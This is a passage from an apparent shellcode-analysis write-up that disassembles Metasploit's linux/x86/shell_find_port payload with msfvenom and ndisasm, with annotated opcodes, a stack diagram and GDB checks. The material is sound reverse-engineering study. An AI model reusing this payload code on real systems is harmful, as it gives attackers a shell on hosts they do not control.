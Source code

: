 The output is clear and as expected.


## linux/x86/shell_find_port <a name="findPort"></a>
*Spawn a shell on an established connection*


At a quick glance and over a reflection what needs to be done we can assume the following:

* A loop will be used to increment port number.
* Some sort of function must be used to check if it is open.
* And another function to start use it.

```
root@kali:~/Desktop# msfvenom --platform=linux -a x86 -p linux/x86/shell_find_port | ndisasm -u -
No encoder or badchars specified, outputting raw payload
disas 
00000000  31DB              xor ebx,ebx
00000002  53                push ebx //[esp]=0
00000003  89E7              mov edi,esp //edi = esp
00000005  6A10              push byte +0x10 // [esp]=16d
00000007  54                push esp //[esp]=esp-1
00000008  57                push edi //[esp]=esp-3
00000009  53                push ebx // pushes 0
0000000A  89E1              mov ecx,esp //ecx=[esp]
0000000C  B307              mov bl,0x7 // ebx=7

         ______________
1   ---->|     0       | <- edi points here                    |
2   | -->|   0x10      |                                       |
3   | |__|    esp-1    | <- points at esp 1 positions above    | stack growth direction
4   -----|    esp-3    | <- points at esp 3 positions above    |
5        |     0       | <- ecx points here                    |
         |_____________|                                      \_/

Verifying it with GDB, bp at offset 0E.

gdb-peda$ x/5w $esp
0xbffff498: 0x00000000  0xbffff4a8  0xbffff4a4  0x00000010
0xbffff4a8: 0x00000000

                                                                    
0000000E  FF01              inc dword [ecx] //Increment index 5 (see figure above) <--------|
00000010  6A66              push byte +0x66                                                 |
00000012  58                pop eax //eax = 0x66, system call: sys_socketcall               |
00000013  CD80              int 0x80 //socketcall(ebx ,ecx)                                 |
                                                                                            |
Good explanation of sys_socketcall: http://isomerica.net/~dpn/socketcall1.pdf               |
ebx=7                                                                                       |
tomasuh@Crunch:~$ cat /usr/include/linux/net.h | grep 7                                     |
#define SYS_GETPEERNAME 7       /* sys_getpeername(2)       */                              |
ecx is a pointer to the arguments, look where ecx points in figure above.                   |
int getpeername(int sockfd, struct sockaddr *addr, socklen_t *addrlen);                     |
So the call is sys_getpeername(0, espPointerAtInd4, espPointerAtInd3) the first time.       |
                                                                                            |
00000015  66817F02BB3E      cmp word [edi+0x2],0x3ebb                                       |
0000001B  75F1              jnz 0xe_________________________________________________________|

The comparision checks a part of addrlen, if it does not have a specific value, continue to loop.
Interesting is that gdb, ndisasm and libemu all gave different constant values it compared to,
but a reasonable assumption is that it will continue to loop until it finds an existing connection.

0000001D  5B                pop ebx //pop port number/file descriptor into ebx
0000001E  6A02              push byte +0x2
00000020  59                pop ecx //ecx=2
```